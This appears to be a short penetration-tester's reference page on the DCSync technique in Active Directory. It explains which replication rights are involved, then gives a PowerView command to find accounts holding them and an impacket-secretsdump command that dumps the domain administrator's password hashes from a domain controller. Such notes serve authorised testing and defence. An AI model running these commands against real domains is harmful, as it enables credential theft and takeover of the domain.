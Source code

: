 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# DCSync

## Information

Includes the following rights:

{% hint style="success" %}
* `GetChanges` → internal/technical permission name used in APIs and LDAP.
* `Replication-Directory-Changes` → friendly display name for the same permission.
{% endhint %}

1. `Replication-Get-Changes` / `GetChanges`
2. `Replication-Directory-Changes-All` / `GetChangesAll`&#x20;
3. `Replication-Directory-Changes-In-Filtered-Set` / `GetChangesInFilteredSet` (not always)

Default setting: Domain Admins, Enterprise Admins, Administrators, and Domain Controllers.

## Exploitation

{% tabs %}
{% tab title="PowerView" %}
Enumerate rights:

{% code overflow="wrap" %}
```powershell
Get-ObjectAcl -DistinguishedName "dc=x7331,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}
```
{% endcode %}
{% endtab %}

{% tab title="Impacket" %}
Dump NTDS:

{% code overflow="wrap" %}
```bash
impacket-secretsdump x7331.local/user:pass@<dc-ip> -just-dc-user administrator    
```
{% endcode %}
{% endtab %}
{% endtabs %}
